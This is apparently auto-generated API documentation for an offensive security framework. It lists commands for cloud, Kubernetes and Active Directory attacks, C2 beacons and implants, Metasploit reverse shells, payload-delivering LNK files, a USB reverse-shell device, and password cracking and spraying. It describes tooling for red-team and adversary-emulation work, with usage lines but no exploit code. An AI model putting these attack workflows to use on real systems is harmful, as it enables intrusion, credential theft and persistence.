    consent_grant — Generate OAuth consent grant phishing URL
    spn_cred_theft — Service principal credential theft plan
    managed_identity — Managed identity abuse from compromised VM/container
    connect_sync  — Entra Connect Sync abuse (on-prem ↔ cloud)
    ca_bypass     — Conditional Access bypass techniques
    tenant_enum   — Enumerate tenant via Graph API

Examples:
    entra_attack device_code
    entra_attack consent_grant
    entra_attack tenant_enum*
- `do_aws_privesc` (line 125) `def do_aws_privesc(self, line)` - *AWS privilege escalation and enumeration.

Usage: aws_privesc <method>

Methods:
    iam_enum        — Enumerate IAM permissions and privesc paths
    lambda_backdoor — Backdoor a Lambda function for role credential theft
    sts_chain       — Enumerate STS AssumeRole privesc chains
    ec2_data        — Extract EC2 instance user data and metadata
    s3_enum         — Enumerate S3 buckets and permissions
    cf_drift        — CloudFormation drift exploitation
    ssm_abuse       — SSM session abuse for EC2 shell access

Examples:
    aws_privesc iam_enum
    aws_privesc lambda_backdoor*
- `do_gcp_privesc` (line 215) `def do_gcp_privesc(self, line)` - *GCP privilege escalation and enumeration.

Usage: gcp_privesc <method>

Methods:
    iam_enum        — Enumerate GCP IAM policies
    sa_impersonate  — Service account impersonation attack
    cloud_function  — Cloud Functions backdoor
    metadata_exfil  — Compute Engine metadata exfiltration
    gcs_enum        — Cloud Storage bucket enumeration
    cloudbuild      — Cloud Build abuse
    org_escalation  — Organization-level escalation paths

Examples:
    gcp_privesc iam_enum
    gcp_privesc metadata_exfil*
- `do_k8s_attack` (line 302) `def do_k8s_attack(self, line)` - *Kubernetes attack — RBAC enumeration, pod escape, etcd, persistence.

Usage: k8s_attack <method>

Methods:
    rbac_enum       — Enumerate RBAC permissions
    pod_escape      — Privileged pod escape plan (hostPID, hostPath, docker socket)
    token_theft     — Service account token theft across namespaces
    kubelet_abuse   — Kubelet anonymous auth abuse
    etcd            — etcd database exploitation
    helm            — Helm Tiller abuse (v2+v3)
    persistence     — K8s persistence techniques

Examples:
    k8s_attack rbac_enum
    k8s_attack pod_escape
    k8s_attack persistence*
- `do_cross_cloud` (line 387) `def do_cross_cloud(self, line)` - *Cross-cloud identity federation attacks.

Usage: cross_cloud <method>

Methods:
    azure_to_aws   — Azure AD SAML → AWS role assumption
    gcp_to_azure   — GCP OIDC → Azure AD token exchange
    aws_to_gcp     — AWS OIDC → GCP workload identity federation
    imds_harvest   — Multi-cloud IMDS metadata harvesting (6 providers)
    detect_federation — Detect cross-cloud federation configurations

Examples:
    cross_cloud azure_to_aws
    cross_cloud imds_harvest
    cross_cloud detect_federation*
- `do_saas_enum` (line 470) `def do_saas_enum(self, line)` - *Enumerate SaaS platforms — M365, Google Workspace, Salesforce, Slack, ServiceNow.

Usage: saas_enum <platform>

Platforms: m365, google_workspace, salesforce, servicenow, slack, all

Examples:
    saas_enum m365
    saas_enum slack
    saas_enum all*

#### `collaboration.py`
**Path:** `cli/commands/collaboration.py`
**File Doc:** *Collaboration CLI commands — multi-operator teamwork from the shell.  Exposes the real-time collaboration layer (target locks, operator presence, event sharing) that currently lives only in the C2 web dashboard.*

**Classes:**
- `CollaborationCommandSet` (line 20) `class CollaborationCommandSet(LazyOwnCommandSet)` - *Multi-operator collaboration commands for the CLI.*

**Methods:**
- `_get_collab` (line 26) `def _get_collab(self)` - *Lazy-load collaboration singletons from modules.collab_bp.*
- `_resolve_target` (line 38) `def _resolve_target(self, target)` - *Resolve a target argument: explicit IP or rhost from payload.*
- `do_lock_target` (line 48) `def do_lock_target(self, line)` - *Acquire an advisory lock on a target to prevent tool collisions.

Usage:
    lock_target [target_ip]
    lock_target 10.10.11.5

Without an argument, locks the current rhost from payload.json.
Active locks are visible to all connected operators via 'team_status'.
Locks auto-expire after 5 minutes unless refreshed.*
- `do_unlock_target` (line 89) `def do_unlock_target(self, line)` - *Release an advisory lock on a target.

Usage:
    unlock_target [target_ip]
    unlock_target 10.10.11.5*
- `do_team_status` (line 114) `def do_team_status(self, line)` - *Show active operators and target locks.

Usage:
    team_status

Displays who is online, which targets are locked, and by whom.
Requires the C2 server to be running.*
- `do_team_chat` (line 169) `def do_team_chat(self, line)` - *Send a message to all connected operators.

Usage:
    team_chat <message>
    team_chat Found SMB signing disabled on 10.10.11.5, starting relay

Messages are broadcast in real-time via the C2 event bus.*
- `do_share_finding` (line 199) `def do_share_finding(self, line)` - *Share a finding or credential discovery with the team.

Usage:
    share_finding <text>
    share_finding Default admin:admin credentials on port 8080

Broadcasts via team event bus for real-time visibility.*

#### `command_and_control.py`
**Path:** `cli/commands/command_and_control.py`
**File Doc:** *Command & Control command set.  Phase-scoped home for the C2 / beacon operator commands (category ``10. Command & Control``). This module is intentionally an empty, active ``CommandSet`` scaffold: migrate one ``do_*`` method at a time out of ``lazyown.py`` into this class.  Migration rule -------------- When you paste a ``do_<name>`` method here you MUST delete the original copy from ``lazyown.py`` in the same change. Registering the same command name on both the shell and an active ``CommandSet`` raises a duplicate-command error at startup. Decorate migrated methods with ``@cmd2.with_category(command_and_control_category)`` so they keep their help grouping, and rely on :class:`cli.commands._base.LazyOwnCommandSet` to forward ``self.params`` / ``self.cmd`` / other shell state once registered.  Discovery is automatic: :func:`cli.registry.register_command_sets` finds this class at startup, so no wiring change is needed as commands are added.*

**Classes:**
- `CommandAndControlCommandSet` (line 34) `class CommandAndControlCommandSet(LazyOwnCommandSet)` - *Command & Control phase commands (migrate ``do_*`` here one at a time).*

**Methods:**
- `do_c2_status` (line 41) `def do_c2_status(self, _line)` - *Show consolidated C2 status: listeners, beacons, implants, and sessions.*
- `do_c2_beacons` (line 98) `def do_c2_beacons(self, _line)` - *List all active beacon sessions with their last-seen timestamps.*
- `do_c2_keygen` (line 134) `def do_c2_keygen(self, _line)` - *Generate a fresh AES-256 key for beacon encryption.*
- `do_c2_quickstart` (line 151) `def do_c2_quickstart(self, _line)` - *Quick C2 setup: generate key, prepare implant dir, print beacon commands.

One-shot setup that prepares everything needed for a C2 session:
AES key, implant staging directory, and ready-to-use beacon commands
for both Linux and Windows targets.*
- `do_c2_beacon_cmd` (line 198) `def do_c2_beacon_cmd(self, line)` - *Queue a command for execution on a connected beacon.

Usage:
    c2_beacon_cmd <client_id> <command>
    c2_beacon_cmd abc123 id*
- `do_c2_implant` (line 233) `def do_c2_implant(self, line)` - *Generate a compiled implant payload for the target platform.

Usage:
    c2_implant <linux|windows> [output_name]
    c2_implant linux mybeacon*

#### `command_and_control_migrated.py`
**Path:** `cli/commands/command_and_control_migrated.py`
**File Doc:** *command_and_control commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `CommandAndControlMigratedCommandSet` (line 39) `class CommandAndControlMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `_api` (line 543) `def _api(method, endpoint, payload)`
- `_load_ability` (line 2322) `def _load_ability(ability_file)`
- `_ability_to_step` (line 2329) `def _ability_to_step(ability)`

**Methods:**
- `do_msf` (line 44) `def do_msf(self, line)` - *Automates various Metasploit tasks including scanning for vulnerabilities, setting up reverse shells, and creating payloads.

1. If no arguments are provided:
    - Retrieves the target IP (`self.params['rhost']`) from parameters.
    - Checks if the IP is valid using `check_rhost()`. If invalid, exits the function.
    - Creates a Metasploit resource script (`/tmp/scan_vulnerabilities.rc`) that includes commands for scanning ports, enumerating services, and checking for known vulnerabilities.
    - Executes Metasploit with the created resource script and then deletes the temporary file.
    - Prints a shutdown message after running the scan.

2. If the argument starts with "rev":
    - Sets up a reverse shell payload based on the specified platform and user choice (with or without meterpreter).
    - Creates a Metasploit resource script (`/tmp/handler.rc`) for handling incoming reverse shell connections.
    - Executes Metasploit with the created resource script and then deletes the temporary file.
    - Prints a shutdown message after setting up the handler.

3. If the argument starts with "lnk":
    - Configures parameters (`self.params['lhost']`, `lport`) for creating a payload.
    - Uses `msfvenom` to generate a payload executable and saves it in the `sessions` directory.
    - Creates an XML file (`download_payload.xml`) that will be used to download and execute the payload on a target machine.
    - Creates a PowerShell script (`create_lnk.ps1`) to generate a shortcut file (`.lnk`) pointing to the payload.
    - Prints instructions and generates a command to copy to the clipboard for setting up the payload and files.

4. If the argument starts with "autoroute":
    - Configures parameters for setting up a Metasploit session and autorouting.
    - Creates a Metasploit resource script (`/tmp/autoroute.rc`) to handle exploit sessions and assign up autorouting.
    - Executes Metasploit with the resource script and starts a SOCKS proxy for routing traffic.
    - Configures proxychains to use the Metasploit SOCKS proxy and prints instructions for using proxychains with tools.

:param line: The command line input that determines which Metasploit task to automate.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- For scanning: Create and run the resource script using `msfconsole -r /tmp/scan_vulnerabilities.rc`.
- For reverse shells: Configure and run the resource script with the appropriate payload settings.
- For payload generation and shortcuts: Use `msfvenom` and create XML and PowerShell scripts as specified.
- For autorouting: Create and run the resource script for autorouting and configure proxychains.

Note: Ensure all required parameters (`self.params['lhost']`, `lport`, etc.) are assign before running these tasks.*
- `do_c2` (line 394) `def do_c2(self, line)` - *Handle C2 server setup and agent compilation.

This method manages the process of setting up a Command and Control (C2)
server and compiling a corresponding agent for various platforms.

Args:
    line (str): Specifies the victim ID and optional C2 server configurations.
        - Victim ID: The identifier for the target agent.
        - Tunnel Option (optional): Append '1' to use a Cloudflare tunnel.
        - Target Choice (optional): A number from '1' to '7' to specify the
        agent platform (default is '1' for Windows PowerShell).
            - '1': Windows PowerShell
            - '2': Linux Shell
            - '3': Windows Batch
            - '4': macOS Shell
            - '5': Android Shell
            - '6': iOS Shell
            - '7': WebAssembly Shell
        - Tunnel Toggle (optional): After the victim ID and target choice,
        you can append '1' to enable the Cloudflare tunnel or '0' to disable it.

Returns:
    None

Raises:
    None

Example Usage:
    c2 victim-1  # Compiles a Windows PowerShell agent
    c2 victim-2 2 # Compiles a Linux Shell agent
    c2 victim-3 1 1 # Compiles a Windows PowerShell agent with Cloudflare tunnel

Notes:
    - Ensure the 'self.params['lhost']' and 'self.params['c2_port']' parameters are correctly set in the
    `payload.json` config file before calling this method.
    - The `modules/run` file and files in `modules/backdoor/` and
    `modules/rootkit/` directories must exist for the agent compilation
    process.
    - The go artifactory is ofuscated by garble if is installed*
- `do_listener` (line 516) `def do_listener(self, line)` - *Manage C2 listeners: list, add, start, stop, remove.

Usage:
    listener list                  - Show all configured listeners
    listener add <port> [ssl]      - Add a new listener (ssl: true/false)
    listener start <id>            - Start a listener via C2 API
    listener stop <id>             - Stop a listener via C2 API
    listener remove <id>           - Remove a listener

Examples:
    listener add 4445 true
    listener start listener-4445
    listener stop default*
- `do_sandbox` (line 644) `def do_sandbox(self, line)` - *Toggle or query Docker sandbox mode.

When ``sandboxed`` is ``true`` in ``payload.json``, the framework
automatically runs inside a Docker container on the next launch.

Usage:
    sandbox         - Show current sandbox status
    sandbox on      - Enable sandbox mode
    sandbox off     - Disable sandbox mode*
- `do_msfrpc` (line 686) `def do_msfrpc(self, line)` - *Connects to the msfrpcd daemon and allows remote control of Metasploit.

Usage:
    msfrpc -a <IP address> -p <port> -U <username> -P <password> [-S]

This command will prompt the user for necessary information to connect to msfrpcd.*
- `do_sliver_server` (line 710) `def do_sliver_server(self, line)` - *Starts the Sliver server and generates a client configuration file for connecting clients.
Provides options to download the Sliver client for Windows, Linux, or macOS.

Usage:
    sliver-server [flags]
    sliver-client [command]

This function installs Sliver if it is not already installed, starts the Sliver server,
generates the necessary certificates, and creates a client configuration file.
It also provides options to download the client for different operating systems.

Parameters:
    line (str): The command line input for the function (not used directly in the current implementation).

Returns:
    None

Example:
    To start the Sliver server, generate the necessary certificates, and download the client,
    run this function. Choose the appropriate client download option based on the operating system.*
- `do_empire` (line 827) `def do_empire(self, line)` - *Generates payloads using PowerShell Empire with various options.

:param line: Not used in this implementation but reserved for future use.

:returns: None*
- `do_automsf` (line 877) `def do_automsf(self, line)` - *Try to check if Vulnerable using the module passed by argument of lazyown example automsf exploit/windows/iis/iis_webdav_upload_asp to use in metasploit
:param line: Command line input that provides the LHOST and RHOST.
:type line: str
:returns: None*
- `do_iis_webdav_upload_asp` (line 922) `def do_iis_webdav_upload_asp(self, line)` - *(CVE-2017-7269). Vulnerable using the module iis_webdav_upload_asp of metasploit
:param line: Command line input that provides the LHOST and RHOST.
:type line: str
:returns: None*
- `do_duckyspark` (line 957) `def do_duckyspark(self, line)` - *duckyspark Compiles and uploads an .ino sketch to a Digispark device using Arduino CLI and Micronucleus.

duckyspark method checks if Arduino CLI and Micronucleus are installed on the system.
If they are not available, it installs them. It then compiles a Digispark sketch
and uploads the generated .hex file to the Digispark device.

The method duckyspark performs the following actions:
1. Checks for the presence of Arduino CLI and installs it if not available.
2. Configures Arduino CLI for Digispark if not already configured.
3. Generates a reverse shell payload and prepares the sketch for Digispark.
4. Compiles the prepared Digispark sketch using Arduino CLI.
5. Checks for the presence of Micronucleus and installs it if not available.
6. Uploads the compiled .hex file to the Digispark device using Micronucleus.

Args:
    line (str): Command line input provided by the user, which may contain additional parameters.

Returns:
    None: The function does not return any value but may modify the state of the system
        by executing commands.*
- `do_emp3r0r` (line 1158) `def do_emp3r0r(self, line)` - *Command emp3r0r Downloads and sets up the Emperor server for local exploitation.

This function performs the following tasks:
1. Checks if Emperor is already downloaded.
2. Downloads the Emperor tar.xz file if not already present.
3. Extracts the contents into the sessions directory.
4. Executes the Emperor server.
5. Prepares the agent download command based on the OS Host and copies it to the clipboard.

Args:
    line (str): Optional arguments to specify port Relay

Returns:
    None

Example:
    emp3r0r 6666

Notes:
    - Ensure that the required dependencies are installed.*
- `do_atomic_tests` (line 1222) `def do_atomic_tests(self, line)` - *Executes Atomic Red Team tests based on user-selected platform and test.

This function performs the following actions:
1. Verifies the presence of the Atomic Red Team repository; if not present, it clones it locally.
2. Prompts the user to select a target platform, filtering the available tests to only those compatible.
3. Displays the filtered tests, including their description and platform compatibility.
4. Allows the user to select and execute a test or specify parameters directly.

Parameters:
line (str): Command-line arguments for specifying a test ID or additional parameters.
            If not provided, interactive input will be used.

Returns:
None*
- `do_atomic_gen` (line 1382) `def do_atomic_gen(self, line)` - *Generates test and cleanup scripts for a given Atomic Red Team technique ID.

Parameters:
line (str): The technique ID.

Returns:
None*
- `do_atomic_agent` (line 1566) `def do_atomic_agent(self, line)` - *Generates and synchronizes atomic agent scripts.

Parameters:
line (str): Command-line arguments (not used in this function).

Returns:
None*
- `do_attack_plan` (line 1666) `def do_attack_plan(self, line)` - *Executes a multi-step APT simulation plan based on Atomic Red Team test IDs.

Parameters:
line (str) optional: Path to the YAML plan file. Append --auto to execute
                      generated scripts immediately instead of just generating.

Returns:
None*
- `do_apt_playbook` (line 1790) `def do_apt_playbook(self, line)` - *List, validate, and run APT playbooks based on public threat reports.

Usage:
    apt_playbook list                  - Show available APT playbooks
    apt_playbook info <apt_name>       - Show phases and techniques
    apt_playbook validate <apt_name>   - Check atomic tests availability
    apt_playbook run <apt_name>        - Generate attack_plan.yaml
    apt_playbook report <apt_name>     - Write JSON report to sessions/

Examples:
    apt_playbook list
    apt_playbook info apt29
    apt_playbook run apt28*
- `do_mitre_test` (line 1910) `def do_mitre_test(self, line)` - *Interacts with the MITRE ATT&CK framework using the STIX 2.0 format.

This function connects to a locally cached or downloaded ATT&CK dataset in STIX 2.0 format.
It allows the user to explore tactics, techniques, and procedures (TTPs) and filter them
based on specific criteria, such as platform or tactic.

Parameters:
    line (str): User input, which may specify filters or actions, such as a tactic name or technique ID.

Usage:
    mitre_test list             # Lists all tactics and techniques
    mitre_test tactic <name>    # Lists techniques for a specific tactic
    mitre_test technique <id>   # Shows details of a specific technique*
- `do_generate_playbook` (line 2013) `def do_generate_playbook(self, line)` - *Generates a playbook that integrates Atomic Red Team tests and MITRE ATT&CK techniques.

This function creates a playbook by combining tests from the Atomic Red Team repository
and techniques from the MITRE ATT&CK framework. The playbook includes detailed information
about each test and technique, making it a comprehensive resource for emulating adversary
behaviors.

Parameters:
line (str): Command-line arguments for specifying the playbook name and optional filters.
            The filters can be applied to various attributes of the tests and techniques,
            including but not limited to:
            - name: Filter by the name of the test or technique.
            - description: Filter by keywords in the description of the test or technique.
            - mitre_id: Filter by the MITRE ATT&CK technique ID.
            - platforms: Filter by the supported platforms (e.g., windows, linux, macos).
            - tactic: Filter by the MITRE ATT&CK tactic associated with the technique.
            - data_sources: Filter by the data sources mentioned in the technique.
            - defensive_measures: Filter by the defensive measures mentioned in the technique.
            - examples: Filter by examples mentioned in the technique.
            - references: Filter by references or URLs mentioned in the technique.
            - related_techniques: Filter by related techniques mentioned in the technique.
            - mitigations: Filter by mitigations mentioned in the technique.

Returns:
None

Example Usage:
do_generate_playbook("ExamplePlaybook persistence lateral_movement windows")
This command will generate a playbook named "ExamplePlaybook" that includes tests and
techniques related to "persistence", "lateral_movement", and the "windows" platform.*
- `do_my_playbook` (line 2192) `def do_my_playbook(self, line)` - *Generates a playbook from your custom technique database.
Usage: my_playbook <name> [filter]
Example: my_playbook KerberosAttack password spray*
- `do_caldera` (line 2249) `def do_caldera(self, line)` - *Installs and starts the Caldera server.

This function:
    - Clones the Caldera repository recursively.
    - Installs the required dependencies.
    - Optionally installs GoLang (1.19+).
    - Starts the Caldera server with the provided parameters.

Behavior:
    - Requires `git`, `python3`, and `pip3` to be installed.
    - Uses parameters from `self.params` for version/release.

Usage:
    caldera*
- `do_caldera_import` (line 2298) `def do_caldera_import(self, line)` - *Import CALDERA abilities into LazyOwn playbooks.

Usage:
    caldera_import <ability_id> [playbook_name]
    caldera_import all

Examples:
    caldera_import 4e97e699-93d7-4046-b5b3-94968bf4ac1e
    caldera_import all*
- `do_caldera_export` (line 2390) `def do_caldera_export(self, line)` - *Export a LazyOwn playbook to CALDERA ability YAML.

Usage:
    caldera_export <playbook_name> [ability_id_prefix]

Examples:
    caldera_export apt29
    caldera_export fin7 lazyown-*

#### `containers.py`
**Path:** `cli/commands/containers.py`
**File Doc:** *Container and Kubernetes attack command set.  Commands for Docker enumeration, Kubernetes cluster reconnaissance, pod escape detection, and container privilege escalation.*

**Classes:**
- `ContainerCommandSet` (line 30) `class ContainerCommandSet(LazyOwnCommandSet)` - *Container and Kubernetes attack commands.*

**Methods:**
- `do_docker_enum` (line 37) `def do_docker_enum(self, _line)` - *Enumerate Docker host: containers, images, privileges, mounts.

Checks for:
- Privileged containers
- Docker socket mounts (escape vector)
- Sensitive host path mounts
- Dangerous Linux capabilities

Usage: docker_enum*
- `do_k8s_enum` (line 101) `def do_k8s_enum(self, _line)` - *Enumerate Kubernetes cluster: pods, secrets, SAs, RBAC.

Checks for:
- All namespaces and pods
- Secrets (kubeconfig, tokens, credentials)
- Service accounts with cluster-admin
- Pod escape vectors (hostPID, privileged, mounts)

Usage: k8s_enum*
- `do_container_escape` (line 169) `def do_container_escape(self, _line)` - *Check current container for known escape vectors.

Detects:
- Docker socket mounted
- Privileged mode
- Host PID namespace shared
- Dangerous capabilities (SYS_ADMIN, SYS_PTRACE)
- Service account tokens (K8s)
- Sensitive host mounts

Usage: container_escape*
- `do_k8s_pods` (line 239) `def do_k8s_pods(self, line)` - *List Kubernetes pods with security-relevant details.

Shows pod status, hostNetwork, hostPID, privileged status,
and namespace for each pod.

Usage:
    k8s_pods
    k8s_pods <namespace>*
- `do_k8s_secrets` (line 283) `def do_k8s_secrets(self, line)` - *List and decode Kubernetes secrets.

Extracts and decodes all secrets from the cluster, writing
credentials and tokens to sessions/k8s_secrets_*.txt files.

Usage:
    k8s_secrets
    k8s_secrets <namespace>*
- `do_container_detect` (line 334) `def do_container_detect(self, _line)` - *Auto-detect container runtime and escape primitives.

Detects the container runtime (Docker, containerd, CRI-O, Podman,
LXC, Kubernetes, systemd-nspawn), then enumerates dangerous mounts,
capabilities, and applicable escape techniques.

Usage: container_detect*

#### `cred.py`
**Path:** `cli/commands/cred.py`
**File Doc:** *Credential Access command set (pending).  Phase 07 — commands for credential access: password cracking, hash manipulation, dictionary generation, and credential harvesting.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.*

**Classes:**
- `CredentialAccessCommandSet` (line 23) `class CredentialAccessCommandSet(LazyOwnCommandSet)` - *Credential Access phase commands (pending).*

**Methods:**
- `do_hashcat` (line 30) `def do_hashcat(self, line)` - *Run hashcat password cracking.*
- `do_john2hash` (line 39) `def do_john2hash(self, line)` - *Convert a hash to John the Ripper format.*
- `do_hydra` (line 47) `def do_hydra(self, line)` - *Run Hydra for online password attacks.*
- `do_medusa` (line 59) `def do_medusa(self, line)` - *Run Medusa for online password attacks.*
- `do_crunch` (line 67) `def do_crunch(self, line)` - *Generate wordlists with crunch.*
- `do_cewl` (line 75) `def do_cewl(self, line)` - *Generate a wordlist from a website with cewl.*
- `do_sshkey` (line 87) `def do_sshkey(self, line)` - *Generate an SSH key pair.*
- `do_creds_py` (line 93) `def do_creds_py(self, line)` - *Extract credentials from a file or command output.*
- `do_spraykatz` (line 98) `def do_spraykatz(self, line)` - *Run SprayKatz for credential spraying.*

#### `cred_migrated.py`
**Path:** `cli/commands/cred_migrated.py`
**File Doc:** *cred commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `CredMigratedCommandSet` (line 30) `class CredMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `single_combo` (line 386) `def single_combo(name, characters, file, total, flag)` - *Generates single character combinations with the target name.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `double_combo` (line 409) `def double_combo(name, characters, file, total, flag)` - *Generates double character combinations with the target name.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `triple_combo` (line 433) `def triple_combo(name, characters, file, total, flag)` - *Generates triple character combinations with the target name.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `fourth_combo` (line 458) `def fourth_combo(name, characters, file, total, flag)` - *Generates fourth character combinations with the target name.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `fifth_combo` (line 484) `def fifth_combo(name, characters, file, total, flag)` - *Generates fifth character combinations with the target name.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `sixth_combo` (line 511) `def sixth_combo(name, characters, file, total, flag)` - *Generates sixth character combinations with the target name, adding uppercase characters.

:param name: Target name to use in the combinations.
:param characters: List of characters to combine with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `intercalate_combo` (line 536) `def intercalate_combo(name, characters, file, total, flag)` - *Generates combinations of the target name and character list, intercalating uppercase and lowercase characters.

This function generates combinations where each character in the string alternates between uppercase and
lowercase. It also allows for the addition of the target name at the beginning or the end of the string.

:param name: Target name to use in the combinations.
:param characters: List of characters to intercalate with the target name.
:param file: File object to write the combinations to.
:param total: Running total of passwords generated.
:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.

:returns: Updated total of passwords generated.*
- `expand_regex` (line 568) `def expand_regex(regex)` - *Expands a regular expression into a list of characters.

:param regex: Regular expression string to expand.
:returns: List of characters matching the regular expression.*
- `alternate_case` (line 552) `def alternate_case(s)` - *Helper function to alternate the case of characters in a string.*

**Methods:**
- `_rotate_existing_credentials` (line 34) `def _rotate_existing_credentials(self, credentials_file_path)` - *Back up an existing credentials file before it is overwritten.

Args:
    credentials_file_path: Path to the active credentials file.

Returns:
    The backup path when a rotation happened, otherwise ``None``.*
- `do_createhash` (line 62) `def do_createhash(self, line)` - *Creates a `hash.txt` file in the `sessions` directory with the specified hash value and analyzes it using `Name-the-hash`.

This function performs the following actions:
1. Validates the input line to ensure it is not empty.
2. Backs up the existing `hash.txt` file if it exists, renaming it to `hash_{timestamp}.txt` based on the current timestamp.
3. Writes the provided hash value to `sessions/hash.txt`.
4. Analyzes the hash value using `Name-the-hash`.

Usage:
    createhash <hash>

:param line: The hash value to be written to `hash.txt` and analyzed.
:type line: str
:returns: None

Manual execution:
1. Creates or overwrites the file `sessions/hash.txt` with the specified hash value.
2. Analyzes the hash value using the `nth` command.

Dependencies:
- `sessions/hash.txt` will be created in the `sessions` directory.
- `Name-the-hash` must be installed and accessible via the command `nth`.

Example:
    createhash 5f4dcc3b5aa765d61d8327deb882cf99

Note:
    - Ensure the hash value is correct before running the analysis.
    - The hash value should be provided as a single argument without extra characters or spaces.*
- `do_createcredentials` (line 116) `def do_createcredentials(self, line)` - *Creates a `credentials.txt` file in the `sessions` directory with the specified username and password.

This function performs the following actions:
1. Validates the input line to ensure it contains a colon (`:`), indicating the presence of both a username and password.
2. Backs up the existing `credentials.txt` file if it exists, renaming it to `credentials_{username}.txt` based on the existing username.
3. Writes the valid input to `sessions/credentials.txt`.

Usage:
    createcredentials user:password

:param line: The input line containing the username and password in the format `user:password`.
:type line: str
:returns: None

Manual execution:
1. Creates or overwrites the file `sessions/credentials.txt` with the specified username and password.

Dependencies:
- `sessions/credentials.txt` will be created in the `sessions` directory.

Example:
    createcredentials administrator:passwordadministrator123&!

Note:
    - Ensure the input format is correct: `user:password`.
    - The credentials should be properly formatted with a colon separating the username and password.*
- `do_cred` (line 164) `def do_cred(self, line)` - *Display the credentials stored in the `credentials.txt` file and copy the password to the clipboard.

This function reads the stored credentials from a file named `credentials.txt` located in the `sessions` directory.
The file should be in the format `username:password`. If the file does not exist, an error message will be printed
instructing the user to create the credentials file first. The function extracts the username and password from the file,
prints them, and copies the password to the clipboard using `xclip`.

:param line: A string parameter that is not used in this function. It is included for compatibility with command-line
            interface functions.

:returns: None

Manual execution:
To manually perform the equivalent actions, follow these steps:

    1. Ensure the file `sessions/credentials.txt` exists and contains credentials in the format `username:password`.
    2. Read the file and extract the username and password.
    3. Print the username and password to the console.
    4. Use the `xclip` tool to copy the password to the clipboard. Example command:

        echo '<password>' | xclip -sel clip

Example:
If `sessions/credentials.txt` contains `admin:password123`, the function will print:

    User : admin
    Pass : password123

The password `password123` will be copied to the clipboard.

Note:
Ensure `xclip` is installed on your system for copying to the clipboard. The function assumes that `xclip` is available
and correctly configured.*
- `do_searchhash` (line 217) `def do_searchhash(self, line)` - *Helps to find hash types in Hashcat by searching through its help output.

1. Checks if an argument is provided:
- If no argument is given, displays an error message indicating the need to pass a hash type.

2. Executes a command to search for hash types:
- Runs `hashcat -h` to display Hashcat help information and pipes it to `grep` to search for the provided argument.
- Prints a message with the command being executed and provides further instructions for running Hashcat.

3. Prints a message suggesting the next step:
- Provides a suggestion for running Hashcat with the found hash types.

:param line: The hash type or keyword to search for in the Hashcat help output.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Run `hashcat -h` to display the help information.
- Use `grep` to search for the specific hash type or keyword within the help output.
- Run Hashcat with the appropriate parameters based on the search results.

Note: Ensure that `hashcat` is installed and accessible in the system's PATH.*
- `do_smalldic` (line 253) `def do_smalldic(self, list)` - *Handles the creation of temporary files for users and passwords based on a small dictionary.

This function prompts the user to decide whether to use a small dictionary for generating
user and password lists. If the user agrees, it loads the credentials from a JSON file and
writes them into temporary files. If the user declines, the process is aborted.

Parameters:
list (str): Not used in this function, but kept for compatibility with cmd command input.

Returns:
None*
- `do_dacledit` (line 291) `def do_dacledit(self, line)` - *Execute the dacledit.py command for a specific user or all users listed in the users.txt file.

This function interacts with the DACL editor to modify access control lists in an Active Directory environment.
It allows the user to select a specific user from the list or execute the command for all users.
Install impacket suit to get this script in the examples
Args:
    line (str): The organizational unit (OU) in the format 'OU=EXAMPLE,DC=DOMAIN,DC=EXT'. If not provided, the user is prompted to enter it.

Returns:
    None

Workflow:
    1. Extract parameters and assign up paths.
    2. Check the reachability of the remote host.
    3. Prompt the user for an OU if not provided.
    4. Check if the users.txt file exists and read the list of users.
    5. Display the list of users and prompt the user to select a specific user.
    6. Execute the dacledit.py command for the selected user or all users.

Raises:
    FileNotFoundError: If the users.txt file does not exist.

Example:
    To execute the command for a specific user:
    >>> do_dacledit("MARKETING DIGITAL")

    To execute the command for all users:
    >>> do_dacledit("")*
- `do_generatedic` (line 361) `def do_generatedic(self, line)` - *Generates a wordlist based on a target name and a list of characters, with various combinations.

This function prompts the user for a target name and a wordlist name, then generates various combinations
of the target name with a given list of characters. The combinations include single, double, triple, fourth,
fifth, sixth, and intercalated character variations. The generated passwords are saved to the specified
wordlist file.

:param line: Not used in this function.

:returns: None

Manual execution:
To manually generate a wordlist, run the script and follow the prompts to enter the target name,
wordlist name, and additional characters if desired.

For example:
    Enter target name(Ex. john) ::: john
    Enter wordlist name ::: my_wordlist.txt
    Char List ::: 1 2 3 4 5 6 7 8 9 0 ! @ # $
    Do you want to add more characters in char List[y/n] ::: y
    Enter characters by commas(Ex. : ^,&,*,) ::: ^,&,**
- `do_createmail` (line 626) `def do_createmail(self, line)` - *Generate email permutations based on a full name and self.params['domain'], then save them to a file.

This function prompts the user for a full name and self.params['domain'], generates various email
permutations based on that information, and saves the results in a text file located
in the `sessions` directory.

Parameters:
line (str): used as Fullname.

Internal Variables:
full_name (str): The full name entered by the user, defaulting to 'John Doe'.
